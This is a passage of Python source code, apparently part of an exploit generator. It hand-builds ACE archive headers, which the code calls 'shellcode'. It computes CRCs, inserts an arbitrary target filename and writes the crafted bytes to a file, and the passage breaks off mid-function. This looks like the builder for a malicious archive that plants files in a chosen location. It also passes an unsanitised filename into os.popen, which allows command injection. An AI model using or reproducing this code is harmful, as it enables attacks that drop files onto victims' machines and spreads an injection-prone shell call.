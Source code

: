 ```
        return "0x%08x" % self.sum

    @property
    def sum(self):
        return self.__state ^ 0xFFFFFFFF

def ace_crc32(buf):
    return AceCRC32(buf).sum

def get_ace_crc32(filename):
    with open(filename, 'rb') as f:
        return ace_crc32(f.read())

def get_right_hdr_crc(filename):
    # This command may be different, it depends on the your Python3 environment.
    p = os.popen('py -3 acefile.py --headers %s'%(filename))
    res = p.read()
    pattern = re.compile('right_hdr_crc : 0x(.*?) | struct')
    result = pattern.findall(res)
    right_hdr_crc = result[0].upper()
    return hex2raw4(right_hdr_crc)

def modify_hdr_crc(shellcode, filename):
    hdr_crc_raw = get_right_hdr_crc(filename)
    shellcode_new = shellcode.replace("6789", hdr_crc_raw)
    return shellcode_new

def hex2raw4(hex_value):
    while len(hex_value) < 4:
        hex_value = '0' + hex_value
    return hex_value[2:] + hex_value[:2]

def hex2raw8(hex_value):
    while len(hex_value) < 8:
        hex_value = '0' + hex_value
    return hex_value[6:] + hex_value[4:6] + hex_value[2:4] + hex_value[:2]

def get_file_content(filename):
    with open(filename, 'rb') as f:
        return str(binascii.hexlify(f.read()))[2:-1] # [2:-1] to remote b'...'

def make_shellcode(filename, target_filename):
    if target_filename == "":
        target_filename = filename
    hdr_crc_raw = "6789"
    hdr_size_raw = hex2raw4(str(hex(len(target_filename)+31))[2:])
    packsize_raw = hex2raw8(str(hex(os.path.getsize(filename)))[2:])
    origsize_raw = packsize_raw
    crc32_raw = hex2raw8(str(hex(get_ace_crc32(filename)))[2:])
    filename_len_raw = hex2raw4(str(hex(len(target_filename)))[2:])
    filename_raw = "".join("{:x}".format(ord(c)) for c in target_filename)
    content_raw = get_file_content(filename)
    shellcode = hdr_crc_raw + hdr_size_raw + "010180" + packsize_raw \
              + origsize_raw + "63B0554E20000000" + crc32_raw + "00030A005445"\
              + filename_len_raw + filename_raw + "01020304050607080910A1A2A3A4A5A6A7A8A9"
    return shellcode

def build_file(shellcode, filename):
    with open(filename, "wb") as f:
        f.write(binascii.a2b_hex(shellcode.upper()))

def build_file_add(shellcode, filename):
    with open(filename, "ab+") as f:
```